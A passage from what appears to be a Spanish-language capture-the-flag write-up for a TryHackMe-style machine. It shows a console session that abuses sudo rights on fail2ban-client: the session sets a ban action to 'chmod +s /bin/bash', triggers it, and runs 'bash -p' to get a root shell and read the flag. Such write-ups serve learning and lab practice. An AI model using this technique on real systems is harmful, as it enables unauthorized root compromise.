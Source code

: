 Tras revisar el menú de ayuda de **fail2ban-client**, observamos que tenemos el control total de las opciones, por lo que no requiere que forcemos ningún servicio. Para ello, configuraremos una acción que ejecutará un cambio de permisos privilegiados sobre el binario **bash**, posteriormente ejecutamos un baneo manual a cualquier dirección IP para que ejecute la acción anterior, y finalmente leemos la flag de root:
```console
asterisk@Billing:/etc/fail2ban/action.d$ sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
chmod +s /bin/bash
asterisk@Billing:/etc/fail2ban/action.d$ sudo /usr/bin/fail2ban-client set asterisk-iptables banip 10.10.1.120                                                
1
asterisk@Billing:/etc/fail2ban/action.d$ ls -lna /bin/bash 
-rwsr-sr-x 1 0 0 1234376 Mar 27  2022 /bin/bash
asterisk@Billing:/etc/fail2ban/action.d$ bash -p
bash-5.1# cat /root/
.bash_history      .cache/            .local/            .profile           .wget-hsts         passwordMysql.log  
.bashrc            .gnupg/            .mysql_history     .subversion/       filename           root.txt           
bash-5.1# cat /root/root.txt
THM{****************************}
bash-5.1# 
```

¡Hasta la próxima! ¡Que la "*suerte*" os acompañe!